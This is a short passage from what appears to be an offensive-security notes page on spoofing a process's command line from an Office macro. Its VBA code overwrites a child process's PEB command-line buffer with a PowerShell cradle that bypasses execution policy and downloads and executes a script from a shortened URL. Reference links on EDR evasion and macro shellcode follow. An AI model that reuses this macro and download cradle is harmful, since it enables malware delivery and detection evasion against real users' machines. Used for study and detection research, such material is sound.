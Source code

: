 ```csharp
    success = ReadProcessMemory(newProcessHandle, PEB.ProcessParameters, VarPtr(parameters), Len(parameters), size)
    
    cmdStr = "powershell.exe -noexit -ep bypass -c IEX((New-Object System.Net.WebClient).DownloadString('http://bit.ly/2TxpA4h')) # "
    cmd = convertStr(cmdStr)
    success = WriteProcessMemory(newProcessHandle, parameters.CommandLine.Buffer, StrPtr(cmd), 2 * Len(cmdStr), size)
    ResumeThread (pi.hThread) 
End Sub
```

![](../../.gitbook/assets/screenshot-from-2019-04-10-22-49-40.png)

## References

{% embed url="https://www.countercept.com/blog/dechaining-macros-and-evading-edr/" %}

{% embed url="https://blog.didierstevens.com/2008/10/23/excel-exercises-in-style/" %}

{% embed url="https://www.scriptjunkie.us/2012/01/direct-shellcode-execution-in-ms-office-macros/" %}

{% embed url="https://blog.didierstevens.com/2009/05/06/shellcode-2-vbscript/" %}

{% embed url="https://blog.christophetd.fr/building-an-office-macro-to-spoof-process-parent-and-command-line/" %}



